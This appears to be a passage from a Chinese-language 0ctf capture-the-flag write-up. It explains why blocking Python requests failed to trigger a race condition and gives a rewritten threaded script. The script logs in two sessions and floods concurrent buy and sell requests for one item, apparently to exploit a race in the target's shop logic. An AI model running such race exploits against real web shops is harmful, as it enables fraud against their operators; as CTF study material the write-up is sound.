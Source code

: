 发现这样还是没办法触发。。

和louys讨论了一下，发现一个坑点。。

貌似是因为requests是阻塞的，所以他得一个请求完，才能继续请求。阻塞就代表线性，没有竞争。

![zuse](http://momomoxiaoxi.com/img/post/0ctf/zuse.png)

而curl是不阻塞的，直接发包的

![louys](http://momomoxiaoxi.com/img/post/0ctf/louys.png)

改写一波paylaod

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-
import requests
import threading

username = "moxiaoxi"
password = "moxiaoxi"

cookie1 = {"PHPSESSID":"gseqg01fg54is7nh733lch3eu1"}#PHPSESSID随意
cookie2 = {"PHPSESSID":"r18k5gc0mvu94urgd04k8hgbl7"}

url1 = "http://202.120.7.197/app.php"

paramsLogin ={"action":"login"}
data = {"username":username,"pwd":password}
paramsBuy = {"action":"buy","id":"1"}
paramsSale = {"action":"sale","id":"1"}

session1 = requests.session()
session2 = requests.session()

res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie1)
print res.text
res = session1.post(url = url1,params = paramsLogin,data = data,cookies = cookie2)
print res.text

# res = session1.get(url1,params = paramsBuy,cookies = cookie1)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie2)
# print res.text
# res = session1.get(url1,params = paramsSale,cookies = cookie1 )
# print res.text

def buy():
	res = session1.get(url1,params = paramsBuy,cookies = cookie1)
	print res.text

def sale():
	res = session1.get(url1,params = paramsSale,cookies = cookie2)
	print res.text
	res = session1.get(url1,params = paramsSale,cookies = cookie1 )
	print res.text

def main():
	while True:
		t1 = threading.Thread(target=buy)
	  	t2 = threading.Thread(target=sale)
	  	t3 = threading.Thread(target=sale)
	  	t1.start()
	  	t2.start()
	  	t3.start()
```
